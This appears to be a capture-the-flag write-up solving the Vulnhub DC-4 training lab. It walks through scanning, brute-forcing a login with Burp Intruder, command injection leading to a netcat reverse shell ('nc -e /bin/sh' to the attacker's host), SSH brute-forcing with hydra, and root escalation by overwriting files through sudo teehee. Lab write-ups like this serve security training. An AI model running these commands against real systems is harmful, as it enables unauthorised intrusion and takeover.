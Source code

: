 ```yaml
---
title:     "Vulnhub - DC 4"
tags: [easy,hydra,intruder,]
---
```


We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description:
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: <https://www.vulnhub.com/entry/dc-4,313/>

Lets Begin with our Initial Scan

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/2.png)

Attack type : Cluster Bomb

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/3.png)

Now in payload , load wordlist and start attack!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/4.png)

This one gives different length it might be the password <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/5.png)

And yes I logged in.
After login I got a page Command.php<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/6.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/7.png)

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/9.png)

We got a Shell!!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/12.png)

While Checking jim directory there is ``mbox``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/14.png)

It gives password for ``charles`` I su to charles

Privilege Escalation:

``sudo -l`` shows we can run ``teehee`` with root permission

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/16.png)






